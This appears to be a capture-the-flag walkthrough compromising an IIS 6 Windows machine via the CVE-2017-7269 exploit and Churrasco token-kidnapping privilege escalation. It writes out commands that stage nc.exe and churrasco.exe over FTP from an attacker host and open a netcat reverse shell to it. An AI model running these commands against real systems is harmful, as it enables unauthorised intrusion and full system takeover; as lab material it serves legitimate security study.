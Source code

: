 1.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/da3d72c6-9900-430d-afd4-795a51ba1346)

2. [link](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell).
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/62b52c60-3da9-4581-85ed-1f7a1f8560fe)

Attacker terminal:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4065cdff-e018-4983-83a2-fca55b2b39ee)

3.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/07594dc1-466d-49ac-9ef8-2a2e0da60ba4)

4. [article](https://medium.com/@nmappn/windows-privelege-escalation-via-token-kidnapping-6195edd2660e)

Command: wget https://github.com/Re4son/Churrasco/blob/master/churrasco.exe?raw=true

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/143503d5-d126-4c6b-b26a-691a09ffbcf4)

5.

Command: cp /usr/share/windows-resources/binaries/nc.exe .

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a9732d71-b1e8-4cb0-92f9-cb6dcfb46847)

6.

Command: echo open 10.10.14.21 21> payloadftp.txt&echo USER anonymous >> payloadftp.txt&echo anonymous>> payloadftp.txt&echo bin>> payloadftp.txt&echo GET nc.exe >> payloadftp.txt&echo bye>> payloadftp.txt

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a2d2624d-57f8-4760-ac59-32d63bfbad2d)

7.

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d10ef698-5f6a-408c-a574-5c054ec74282)


8.

Attacker Terminal:<br>
Command:python3 -m pyftpdlib -p 21<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/021e26cc-6559-44c3-9e56-5b881ab224e4)


Victim Terminal:<br>
Command: ftp -v -n -s:payloadftp.txt<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/01e81fcc-d7f8-40f1-88dc-854620ba3082)

9.

Command: echo open 10.10.14.21 21> payloadftp.txt&echo USER anonymous >> payloadftp.txt&echo anonymous>> payloadftp.txt&echo bin>> payloadftp.txt&echo GET churrasco.exe >> payloadftp.txt&echo bye>> payloadftp.txt

Command 2: ftp -v -n -s:payloadftp.txt<br>

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6cc52aed-d435-4301-9481-6416e552f63a)

10.

Command: churrasco.exe -d "C:\wmpub\nc.exe 10.10.14.21 778 -e cmd.exe"

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e125371c-0b6c-47d5-a7b9-aaaa0b89b20e)

Attacker Terminal:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/24a046de-62a9-4243-8d0a-30242d7d33b9)

11.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/230ff785-5022-4405-a0bc-50c1cd4cd06c)

12.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/38c1dd15-3a6c-45f3-a243-ab238efd35af)








